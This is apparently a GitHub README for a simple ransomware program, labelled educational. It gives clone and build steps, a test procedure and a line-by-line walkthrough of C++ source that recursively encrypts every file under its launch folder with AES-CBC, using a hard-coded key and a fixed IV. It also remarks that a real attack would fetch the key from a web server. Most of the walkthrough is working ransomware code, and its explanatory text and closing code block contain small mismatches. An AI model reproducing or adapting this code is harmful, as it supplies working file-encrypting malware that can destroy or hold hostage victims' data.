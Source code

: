 ## About
- **INTENDED FOR EDUCATIONAL PURPOSES ONLY.**
- This ransomware is a very simple program that encrypts instead of a whole drive only recursively files from the folder it was
started from.
- It is very heavy on processor and even if I managed to lower RAM usage it's still not perfect.

## Requirements
- `crypto++` C++ library for `ransomware.cpp`.
- `wget`, `dd` and `yes` for `maketest.sh`.
- `gcc` for build.

## Build
1. `git clone https://github.com/ErnestNoga/ransomware`
2. `cd ransomware`
3. `mkdir build`
4. `cd build`
5. `cmake ..`
6. `make`  
After all these steps are completed you should have file called `ransomware` in current folder, it is an executable
that will encrypt all files recursively from the folder it was launched from.

## Testing
If you wish to see how the ransomware works in practice then this part is for you.  
1. `cd` into the cloned repository folder after it was [built](https://github.com/ErnestNoga/ransomware#user-content-build).
2. `./maketest.sh` and wait. This will take a long time.
3. `cd test`
4. Now go through all files and see their unencrypted values. **TIP:** use `cat ./<FILE_NAME>` when reading files in `weird_names` directory.
When checking `a_lot_of_dirs` use `for` loop to enter directories inside.
example in bash: `for i in {1..100..1}; do cd $i; done`. When exiting the directory use the same for loop but change `$i`
to `..`.
5. Now enter once again the main test directory
6. `../build/ransomware`and wait again this too will take a long time depending on the processing power of your PC.
7. Now inspect the files again to see their encrypted versions.
8. Go back to main test directory.
9. `../build/ransomware 1` and wait for files to decrypt. `1` can be replaced by any other argument only thing that matters
is that total argument number won't be less than 2.
10. Check files once again and see their decrypted values. It should be the same.

## Walkthrough
This part of README.md will be focused on explaining how ransomware works

> ### Imports
>>These are imports of this program, all the ones beginning with `cryptopp` belong to `crypto++` library which is used for encryption itself.
>> You can remove some of those imports without breaking the code because they are already imported by some header files included before, 
>> but I felt I should leave them there anyway for clarity's sake.
>>```c++
>> #include <cryptopp/aes.h>
>> #include <cryptopp/files.h>
>> #include <cryptopp/modes.h>
>> #include <cryptopp/channels.h>
>> 
>> #include <experimental/filesystem>
>> #include <string>
>> #include <sys/stat.h>
>>```  

> ### Custom namespaces
>> This line of code shortens `std::experimental::filesystem` namespace to `fs`.
>> ```c++
>> namespace fs = std::experimental::filesystem;
>> ```

> ### Encrypt function
>>This `void encrypt` function is defined as `void` since it does not return anything,
it requires two arguments: `filename` which is path of the file to encrypt and reference to `pwd` which is passphrase used to encrypt the file.
>> ```c++
>> void encrypt(const char filename[], const std::string &pwd)
>> ```
>>
>> First we define `temp_filename` variable which will be the name of temporary file that `encrypt` function will be writing encrypted data to.
>> ```c++
>> const char temp_filename[] = "temp";
>> ```
>> 
>> This `try .. catch` catches OpenErr which usually means incorrect permission and then sets correct ones.
>> Next `catch` catches all `CryptoPP::Exception` and removes temporary file.
>> ```c++
>> try {
>>    ...
>> } catch (CryptoPP::FileStore::OpenErr &err) {
>>     std::cerr << err.what() << std::endl;
>>     chmod(filename, S_IRWXU);
>>     encrypt(filename, pwd);
>> } catch (CryptoPP::Exception &err) {
>>     fs::remove(temp_filename);
>> }
>> ```
>> 
>> Next line of `encrypt` function prints information about current file that is being encrypted 
>> ```c++
>> std::cout << "Encrypting: " << filename << std::endl;
>> ```
>>
>>
>> After that we create `iv` array of `CryptoPP::byte` which will be our initialization vector with size of 16 and set all of its indexes to `0x01` byte
>> ```c++
>> CryptoPP::byte iv[16];
>> memset(iv, 0x01, 16);
>> ```
>>
>> Next we define our `encryptor` object which requires three arguments: array of CryptoPP::byte as passphrase, passphrase
>> length and initialization vector. We specify AES CBC mode.
>> ```c++
>> CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption encryptor((CryptoPP::byte*)&pwd[0], pwd.size(), iv);
>> ```
>>
>> Next we create `filter` object which requires three arguments: stream transformer which will be used to transform data
>> put into it
>> and unnamed `CryptoPP::FileSink` object which is basically the destination file. After that we create `channel_switch` object
>> used for optimization, and we add to it default route through `filter`
>> ```c++
>> CryptoPP::StreamTransformationFilter filter(encryptor, new CryptoPP::FileSink(temp_filename));
>> CryptoPP::ChannelSwitch channel_switch;
>> channel_switch.AddDefaultRoute(filter);
>> ```
>>
>> Then we create two `CryptoPP::FileSource` objects: first one pumps all our data through filter, second one will move encrypted
>> data to original file. Both of these objects require three arguments: source file, whether to read and process all data, and
>> `CryptoPP::BufferedTransformation` object such as filter or sink. I could have also just renamed the temporary file, 
>> but that would cause the original file to lose all permissions it previously had.
>> ```c++
>> CryptoPP::FileSource(filename, true, new CryptoPP::Redirector(channel_switch));
>> CryptoPP::FileSource(temp_filename, true, new CryptoPP::FileSink(filename));
>> ```
>>
>> After that remove our temporary file.
>> ```c++
>> fs::remove(temp_filename);
>> ```

> ### Decrypt function
>> `decrypt` function is basically the same as `encrypt` just that the `CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption` is changed to
>> `CryptoPP::CBC_Mode<CryptoPP::AES>::Decryption` and some variable names, so I'm not going to waste both of our time explaining it.

> ### Main function
>> This is standard definition of main function in both c and c++, `int argc` is argument count, and `char **argv` is
>> array of arguments.
>> ```c++
>> int main(int argc, char **argv)
>> ```
>>
>> This is creation of pwd string variable it is created with const keyword because it will not be changed. During
> real attack we would download passphrase from web server or use some other way to make it unreadable from compiled file.
>> ```c++
>> const std::string pwd = "12345678901234567890123456789012";
>> ```
>> 
>> `if` statement checks if argument count is 1, because if it is then we can be sure that only executable path was given.
>> If `argc == 1` then it starts for loop iterating through contents of current directory recursively, and if the path
>> of current iteration isn't a directory then it encrypts it. In the case where `argc != 0` then it instead decrypts
> the files.
>> ```c++
>> if (argc == 1) {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          encrypt(i.path().string().c_str(), pwd);
>>       } else {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          decrypt(i.path().string().c_str(), pwd);
>>    }
>> }
>> ```